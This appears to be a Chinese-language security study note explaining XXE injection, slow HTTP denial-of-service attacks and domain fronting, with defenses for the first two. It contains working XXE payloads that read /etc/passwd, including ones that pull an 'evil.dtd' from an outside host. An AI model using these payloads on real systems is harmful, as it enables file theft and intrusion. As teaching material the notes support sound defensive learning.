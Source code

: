 ### XXE是什么？攻击方法？危害？防御方法？
#### XXE是什么？
先了解，外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">，示例如下：
```
<?xml version="1.0"?>
<!DOCTYPE test [
	<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
	<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&writer;&copyright;</author>
```
xxe也就是xml外部实体注入。
#### XXE攻击方法
a. 直接通过DTD外部实体声明
```
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY b SYSTEM "file:///etc/passwd">
]>
<c>&b;</c>
```
b. 通过DTD文档引入外部DTD文档，再引入外部实体声明

XML内容：
```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
<c>&b;</c>
```
DTD文件内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
c. 通过DTD外部实体声明引入外部实体声明

XML内容：
```
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY % d SYSTEM "http://mark4z5.com/evil.dtd">
	%d;
]>
<c>&b;</c>
```
DTD文件内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
#### XXE危害
```
a. 任意文件读取
b. 执行系统命令
c. 探测内网端口
d. 攻击内网
```
#### XXE防御方法
```
a. 禁用外部实体声明
b. 过滤关键词（<!DOCTYPE，<!ENTITY，SYSTEM等）
```

### 慢连接攻击
	1) 原理：使服务器等待，让其在保持连接的情况下消耗资源
	2) 工具: [slowhttptest](https://github.com/shekyan/slowhttptest)
	3) 分类：
	  a) Slowloris(slow headers)
	    HTTP Request以\r\n\r\n（0d0a0d0a）结尾表示客户端发送结束，服务端开始处理。利用这个特性，一直不发送\r\n\r\n,服务端认为HTTP头部没有接收完成而一直等待。
	  b) Slow http post(slow body)
	    POST中设置content-length，提交头部后，慢速发送少量字节，使得服务器一直等待
	  c) Slow read attack
	    控制TCP的滑动窗口大小，使得服务器发送response时，需要拆分成很多个包发送，造成资源浪费。
	4) 防御：
	  a) 设置请求读取超时时间(RequestReadTimeout)
	  b) 设置keep-alive超时时间(KeepAliveTimeout)
	  c) 设置连接超时时间(Timeout)
	  P.S. Nginx能很好防御慢连接攻击

### 域前置
	DNS, TLS(SNI), Http中都有域名，域前置的核心在于，在DNS，TLS通信层使用可信域名a，Http中的host字段指定其他域名b，访问时，即可访问到域名b
	在明文的DNS请求和TLS服务器名称指示中使用无害的域名a来初始化连接，而实际要连接的被封锁域名b仅在创建加密的 HTTPS 连接后发出，使其不以明文暴露给网络审查者。
